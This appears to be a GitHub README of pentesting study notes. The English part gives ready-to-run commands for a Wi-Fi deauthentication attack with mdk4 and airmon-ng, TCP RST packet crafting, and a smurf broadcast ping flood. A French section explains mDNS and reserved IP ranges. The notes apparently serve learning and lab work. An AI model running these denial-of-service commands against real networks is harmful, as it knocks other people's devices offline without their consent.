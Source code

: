 #Pentesting Network

## Dauth Frames
### Install mdk4
- `sudo apt-get install mdk4`

### Setup an interface in monitor mode
- `sudo airmon-ng start <interface>`
- If an error occurs, kill the process: `sudo airmon-ng check kill`
- `iwconfig` should show a new interface: `<interface>mon`
- The attack will be done on this interface

### Execute Dauth Attack
- `sudo mdk4 <interface> d -w <file> -c <channel>`
  - `file`: WhiteList MAC address
  - `channel`: Channel of the AP (remove `-c <channel>` for an attack on all channels)

## Crafting Packet
- Use `g++ -o rst_packet rst_packet.cpp <ipSrc> <ipDst>` (use valid IP addresses for `ipSrc` and `ipDst`)
- Check if reset packets are detected by the sniffer (RST Flag: ...)

## SMURF Attack
- `ping -b <broadcast ip> -c <number of packets> <ip to ping>`
- Or just `ping <ip>`

# IP adresse 
## 224.0.0.251

L'adresse IP 224.0.0.251 est une adresse IP multicast réservée à l'utilisation du protocole de découverte de services Zeroconf (Zero Configuration Networking), également connu sous le nom de mDNS (multicast DNS). Le mDNS permet aux appareils sur un réseau local de découvrir et de se connecter les uns aux autres sans configuration préalable. Cette adresse IP est utilisée pour la résolution de noms de domaine locaux sans avoir besoin d'un serveur DNS central.

En d'autres termes, lorsqu'un appareil sur le réseau local recherche d'autres appareils ou services, il peut diffuser des requêtes multicast à l'adresse IP 224.0.0.251 pour découvrir les services disponibles sur le réseau sans nécessiter une infrastructure DNS traditionnelle. Cela est couramment utilisé dans les réseaux domestiques et locaux pour faciliter la découverte automatique des appareils et des services sans configuration manuelle.

## Adresses IP Réservées
Oui, il existe plusieurs plages d'adresses IP réservées à des utilisations spécifiques, telles que des services particuliers, des protocoles de communication spécifiques, ou des usages réservés à des fins particulières. Voici quelques exemples :

1. **Adresse IP de bouclage (Loopback):**
   - `127.0.0.1` est l'adresse IP de bouclage standard, également connue sous le nom de "localhost". Elle est utilisée pour les tests de réseau sur la machine locale.

2. **Adresses IP privées:**
   - `10.0.0.0` à `10.255.255.255`
   - `172.16.0.0` à `172.31.255.255`
   - `192.168.0.0` à `192.168.255.255`
   Ces plages d'adresses sont réservées pour une utilisation dans les réseaux privés et ne sont pas routées sur Internet.

3. **Adresses IP multicast:**
   - Diverses adresses IP de la plage `224.0.0.0` à `239.255.255.255` sont réservées pour le multicast. Par exemple, `224.0.0.1` est utilisée pour toutes les hôtes sur le réseau local, `224.0.0.2` est utilisée pour tous les routeurs sur le réseau local, etc.

4. **Adresse IP de diffusion (Broadcast):**
   - `255.255.255.255` est utilisée pour envoyer des données à tous les appareils sur le réseau local.

5. **Adresses IP spéciales pour les protocoles réservés:**
   - `0.0.0.0` est utilisée comme adresse indiquant "toutes les adresses" ou "tous les hôtes".
   - `169.254.0.0` à `169.254.255.255` est réservée pour l'auto-configuration d'adresses IP sur un réseau local en l'absence de serveur DHCP.

Ces adresses IP réservées contribuent à organiser et à optimiser le fonctionnement d'Internet et des réseaux locaux en définissant des plages spécifiques pour des fins spécifiques.

